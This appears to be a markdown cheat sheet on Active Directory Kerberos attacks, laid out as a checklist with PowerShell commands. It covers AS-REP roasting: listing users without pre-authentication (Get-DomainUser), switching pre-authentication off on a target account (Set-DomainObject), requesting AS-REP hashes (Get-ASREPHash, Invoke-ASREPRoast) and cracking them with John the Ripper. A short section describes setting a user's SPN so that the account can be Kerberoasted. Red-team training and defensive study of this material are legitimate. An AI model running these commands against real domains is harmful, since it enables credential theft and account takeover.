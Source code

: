 ## <span style="color:lightgreen">Methodology/Steps</span>
- [x] 1. Enumerate the users who don't require Pre-auth
- [x] 2. You can try to disable the Pre-auth requirement of a user is you have the Permissions required
- [x] 3. Do a AS-REP request against the user and capture the hash
- [x] 4. Use JTR to crack the hash


## <span style="color:lightgreen">PowerView Dev</span>

### <span style="color:#F1C232">1. Enumerate users</span>

```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```

### <span style="color:#F1C232">Check RDPUsers rights on ACL's (extra)</span>

```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

### <span style="color:#F1C232">Disable Kerberos Preauth (extra)</span>

```powershell
Set-DomainObject -Identity <user> -XOR @{useraccountcontrol=4194304} -Verbose
```


## <span style="color:lightgreen">ASREPRoast</span>

### <span style="color:#F1C232">2. Request AS-REP</span>

```powershell
Get-ASREPHash -UserName USER -Verbose
```

### <span style="color:#F1C232">To enumerate all users with Kerberos preauth disabled and request a hash (extra)</span>

```powershell
Invoke-ASREPRoast -Verbose
```

# <span style="color:lightblue">Set-SPN</span>

* With enough rights (**GenericAll/GenericWrite**), a target user's SPN can be set to anything (*unique in the domain*).
* We can then request a TGS without special privileges. The TGS can then be "Kerberoasted".

